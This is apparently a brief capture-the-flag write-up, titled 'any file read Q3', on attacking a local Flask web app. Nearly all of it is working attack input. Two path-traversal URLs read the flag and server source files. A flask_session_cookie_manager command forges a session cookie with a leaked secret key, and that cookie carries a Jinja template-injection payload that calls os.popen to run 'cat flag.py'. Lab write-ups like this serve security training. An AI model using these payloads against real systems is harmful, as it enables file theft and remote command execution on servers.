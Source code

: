 # any file read Q3

`http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/sssssserver/flag.py`

http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/sssssserver/server.py

`python ./flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`

![alt text](image.png)
